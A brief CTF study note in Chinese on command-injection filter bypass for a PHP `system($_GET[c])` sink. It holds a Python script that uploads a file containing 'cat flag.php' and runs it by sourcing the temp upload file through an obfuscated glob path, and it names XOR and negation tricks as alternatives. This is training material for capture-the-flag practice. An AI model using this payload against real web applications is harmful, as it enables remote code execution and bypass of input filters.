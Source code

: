 tags:: CTF/RCE, CTF/Shell/WAF绕过

	-
- # 参考
	- [[CTFWEB/WP/CTFShow/web55]]
- # 方式一
	- 对于这样的语句：`system($_GET[c]);`
	- 可以执行上传的文件缓存
	- ```python
	  while True:
	      r = requests.post(
	          url,
	          params = {
	              "c": ". /[_-{][_-{][_-{]/[_-{][_-{][_-{]?????[@-[]"
	          },
	          files={
	              "file":("a.txt", "cat flag.php")
	          }
	      )
	      if r.text:
	          break
	  
	  print(r.text)
	  ```
- # 方式二
	- 使用异或、取反等操作
- # 方式三
	- [[CTFWEB/WP/CTFShow/web57]]